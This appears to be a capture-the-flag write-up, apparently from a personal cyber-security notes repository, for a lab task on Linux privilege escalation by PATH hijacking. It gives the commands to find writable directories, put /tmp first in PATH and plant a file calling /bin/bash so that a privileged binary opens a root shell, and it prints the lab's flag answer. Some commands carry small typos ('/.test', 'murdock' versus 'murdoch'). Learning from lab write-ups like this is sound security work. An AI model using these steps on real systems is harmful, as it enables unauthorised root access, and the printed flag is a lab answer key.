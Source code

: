 ## Privilege Escalation PATH Solution

### Notes:
- exploiting path folders which we have write access to. 
- see if you have write access to PATH so you can add folders where you have write access to. 
  - binaries run in path are usually run under root privileges. 
  - copy binary in the folder indicated in path then run a binary containing "/bin/bash" to create a root enabled shell. 

### What is the odd folder you have write access for?
1. Run the following command to find write acccess for your user. 

```
find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u 
```

Running it doesn't provide the answer we need let's go 1 level deeper: 
```
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
```

![Screenshot 2024-02-09 at 8 08 11 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/5fccce0a-4d79-4844-b615-9bb3889e477b)



**Answer: home/murdock**


### What is the content of the flag6.txt file?
1. First run the following to see the path:
```
echo $PATH
```
![Screenshot 2024-02-09 at 9 22 52 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/0711b158-15d7-4175-b250-6ff42a25ad1a)

2. Let's see if we have any write permissions in any of the $PATH directories.
```
find / -writable  2>/dev/null | cut -d "/" -f 2,3,4 | grep usr | sort -u
```
![Screenshot 2024-02-09 at 9 45 36 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/a296eb75-af03-4ba2-b1c1-4ab7b0fa3fe4)

3. Unfortunately the writable usr/lib/systemd is not included in the path.
4. We will append /tmp in the PATH by running the following command:
```
export PATH=/tmp:$PATH
```
5. Execute the following command:
```
cd /tmp
echo "/bin/bash" > thm
chmod 777 thm
```

6. Execute the following which will grant you a root access bash terminal
```
cd /home/murdoch/
/.test
```

7. Execute `cat /home/matt/flag6.txt`
![Screenshot 2024-02-09 at 11 13 47 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/d2949442-0b6c-4613-81cd-e560d6d72012)

**Answer: THM-736628929**
